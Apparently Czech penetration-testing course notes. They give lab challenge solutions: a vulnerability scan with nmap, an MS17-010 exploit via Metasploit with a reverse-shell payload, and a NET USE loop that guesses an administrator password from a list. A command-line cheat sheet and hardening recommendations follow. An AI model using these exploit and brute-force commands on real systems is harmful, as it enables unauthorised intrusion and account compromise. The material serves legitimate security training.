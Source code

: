 		Pro spuštění vulnerability skenu můžeme použít příkaz
			nmap --script=*vuln* 192.168.56.12


Challenge 25 (Exploitace zranitelností)
------------
Úkol: 	Zneužijte zranitelnost MS17-010 identifikovanou na serveru 192.168.56.12

Řešení:	Použijeme framework pro exploitaci Metasploit

	msfcosole
		search ms17-010
		use 2
		show options
		set rhost 192.168.56.12
		show options
		set payload windows/shell/reverse_tcp
		show options
		exploit

Challenge 26 (Guessing)
-----------------------
Úkol:	Zjistěte heslo uživatele administrator na W10F z fyzického PC bez použití externích nástrojů

Řešení: Uhodnutí správného hesla (Guessing)

	NET USE \\192.168.56.10\c$ /user:administrator password

	FOR /F %h IN (pass.txt) DO NET USE \\192.168.56.10\c$ /user:administrator %h



Přesměrování vstupů / výstupů
-----------------------------
ECHO ahoj
ECHO ahoj > pozdrav.txt		Přesměrování výstupu do souboru. Pokud už soubor existuje, jeho obsah se přepíše.
ECHO ahoj >> pozdrav.txt	Přesměrování výstupu do souboru. Pokud už soubor existuje, vkládaný obsah se přidá na jeho konec.
TYPE pozdrav.txt | FINDSTR zdar Výstup prvního nástroje pošle na vstup druhého nástroje
ECHO ahoj && ECHO cau		Druhý příkaz se vykoná po prvním, ale pouze tehdy, pokud první příkaz skončil bez chyby
ECHO ahoj || ECHO cau		Druhý příkaz se vykoná po prvním, ale pouze tehdy, pokud první příkaz skončil s chybou
ECHO ahoj & ECHO cau		Druhý příkaz se vykoná po prvním vždy




Důležitá doporučení pro zvýšení bezpečnosti
-------------------------------------------
- Kontrola fyzické bezpečnosti
- Šifrování disku
- Běžní uživatelé nesmí nikdy fungovat pod účtem s admin oprávněním, vždy by měli využívat účty s nejnižším možným oprávněním
- Běžní uživatelé nesmí znát heslo administrátora
- Používejte aktualizovaný antivir (ale nespoléhejte na něj stoprocentně)
- Používejte Firewall s vhodně nastavenými pravidly včetně nastaveného scope
- Používejte IDS / IPS
- Používejte Aplikační Whitelisting (SRP, Applocker)
- Nikdy nebootovat z nedůvěryhodných médií (minimálně pokud nemáme šifrované disky, nebo je neodpojíme)
- Na zařízeních nesmí být nikdy ve skupině lokálních administrátorů doménové účty, vždy pouze lokální účet administrátora, který má na všech zařízeních jiné heslo (ideálně LAPS)
- Pravidelné zálohování (včetně ověřování funkčnosti) s ukládáním záloh na geograficky odděleném místě
- Pravidelné a včasné aktualizace OS, veškerý SW, všechny add-ony




